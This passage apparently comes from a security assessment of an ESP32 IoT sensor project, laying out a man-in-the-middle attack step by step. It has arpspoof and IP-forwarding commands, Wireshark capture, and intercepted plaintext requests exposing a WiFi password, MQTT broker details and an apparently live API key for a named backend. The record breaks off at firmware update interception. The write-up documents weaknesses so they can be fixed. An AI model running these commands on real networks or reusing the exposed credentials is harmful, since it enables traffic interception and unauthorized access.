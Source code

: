 ### Attack Scenario

```
┌─────────────────────────────────────────────────────────────┐
│              MAN-IN-THE-MIDDLE ATTACK SCENARIO              │
└─────────────────────────────────────────────────────────────┘

Network Topology:
─────────────────
   [ESP32] ←──────→ [WiFi AP] ←──────→ [Internet]
     |                 |
     |                 |
     └─────[Attacker]──┘

Attack Steps:
─────────────────

1. ARP Spoofing to Position as MITM
──────────────────────────────────────
$ arpspoof -i wlan0 -t 192.168.1.100 192.168.1.1
$ arpspoof -i wlan0 -t 192.168.1.1 192.168.1.100

2. Enable IP Forwarding
──────────────────────────────────────
$ echo 1 > /proc/sys/net/ipv4/ip_forward

3. Capture Traffic with Wireshark
──────────────────────────────────────
$ wireshark -i wlan0 -f "host 192.168.1.100"

4. Intercepted HTTP Request to Change WiFi
──────────────────────────────────────
POST /connectivity HTTP/1.1
Host: 192.168.1.100:82
Content-Type: application/json

{"ssid":"NewNetwork","password":"SecurePass123"}

[CAPTURED IN PLAIN TEXT!]

5. Intercepted MQTT Message
──────────────────────────────────────
CONNECT 161.97.170.64:1883
PUBLISH topic: digvijay123digvijay
Payload: {"timestamp":"2025-10-29T12:00:00Z",
          "sensor_id":"3B0000005F2A2228",
          "reading_value":72.5}

[SENSOR DATA CAPTURED IN PLAIN TEXT!]

6. Intercepted Backend API Call
──────────────────────────────────────
POST /update_db.php HTTP/1.1
Host: ecoforces.com
Content-Type: application/x-www-form-urlencoded

api_key=tPmAT5Ab3j7F9&data=[{"sensor_id":"...","reading_value":...}]

[API KEY CAPTURED IN PLAIN TEXT!]

7. Firmware Update Interception
──────────────────────────────────────
POST /update HTTP/1.1
```